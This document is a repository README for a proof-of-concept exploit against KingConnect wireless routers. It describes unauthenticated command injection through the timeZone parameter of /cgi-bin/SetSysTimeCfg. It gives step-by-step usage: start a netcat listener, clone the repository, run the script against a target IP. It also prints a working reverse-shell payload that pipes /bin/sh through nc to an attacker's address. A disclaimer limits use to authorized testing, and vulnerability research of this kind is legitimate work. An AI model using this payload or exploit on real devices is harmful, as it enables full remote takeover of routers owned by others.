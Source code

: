 # KKingConnect Wireless Router PoC: Unauthenticated Remote Code Execution

## Overview
- This repository contains a Proof-of-Concept (PoC) exploit for an Unauthenticated Remote Code Execution (RCE) vulnerability in KingConnect wireless routers. The exploit leverages a vulnerability in the /cgi-bin/SetSysTimeCfg endpoint, allowing attackers to execute arbitrary commands without authentication.

## Disclaimer
- This PoC is for educational and research purposes only. Unauthorized exploitation of this vulnerability on systems without explicit consent is illegal and unethical. Use this script responsibly and only in environments where you have proper authorization.

## Explot Details
- Affected Endpoint: /cgi-bin/SetSysTimeCfg
- Vulnerability: Lack of input sanitization allows the injection of shell commands via the timeZone parameter.
- Impact: Full remote command execution on the device.
- Requirements: Attackers must be able to reach the router over HTTP.

## Usage

### Prerequisites
- A Netcat listener running on the attacker's machine to catch the reverse shell.

`nc -lvnp <PORT>`

### Steps to Execute
1. Clone this repository

`https://github.com/badbiddy/KingConnect-Router-RCE.git`

`cd kingconnect-rce-poc`

2. Run the script

`python3 kingconnect_rce.py`

3. Input the following details when prompted
 - The IP address of the target KingConnect router.
 - The IP address of your Netcat listener.
 - The port number of your Netcat listener.

4. Upon successful execution, a reverse shell will connect to your Netcat listener.

## Technical Summary
- Vulnerable Parameter: timeZone
- The timeZone parameter is vulnerable to shell command injection due to insufficient input validation. By injecting a payload using | (pipe) and other shell operators, an attacker can execute arbitrary commands.

Sample Malicious Payload:

`|rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <attacker_port> >/tmp/f &&`

## License
- This project is licensed under the MIT License.
